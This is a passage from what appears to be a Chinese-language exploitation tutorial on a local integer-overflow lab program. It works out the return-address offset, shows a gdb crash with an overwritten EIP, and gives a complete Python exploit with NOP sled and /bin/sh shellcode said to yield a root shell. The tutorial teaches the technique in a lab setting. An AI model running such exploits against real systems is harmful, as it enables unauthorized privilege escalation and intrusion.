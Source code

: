 在这里我们来找找缓冲区‘passed_buf’中返回地址的偏移处于什么位置。之前我们已经反汇编并画出了validate_passwd()的堆栈布局，那么现在就试着找出代码的偏移位置信息吧！由堆栈布局可以看出，返回地址位于缓冲区‘passwd_buf’的偏移(0x18)处。(0x18)计算方式如下：  

0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4  
其中：

0xb 是 ‘passwd_buf’ 大小  
0x1 是 ‘passwd_len’ 大小  
0x4 是 对齐空间  
0x4 是 EDI  
0x4 是调用者的EBP  
这样一来，用户输入 “A” 24 + “B” 4 + “C” * 233，就能以一串“A”覆盖passwd_buf, passwd_len, 对齐空间和调用者的EBP，以“BBBB”覆盖返回地址，以一串C覆盖剩余空间。  

``` 
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Valid Password
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
上述输出结果表明攻击者已然获得返回地址的控制权限。存储于栈(0xbffff1fc)中的返回地址已被“BBBB”覆盖。掌握了以上信息，我们就可以写出能实现任意代码执行的漏洞利用代码了。  

漏洞利用代码：  

``` python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call
arg1 = "sploitfun"
#Stack address where shellcode is copied.
ret_addr = 0xbffff274
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#endianess convertion
def conv(num):
 return struct.pack("<I",num)
arg2 = "A" * 24
arg2 += conv(ret_addr);
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 108
print "Calling vulnerable program"
call(["./vuln", arg1, arg2])
``` 
执行上述漏洞利用程序可以获取root shell，如下所示  
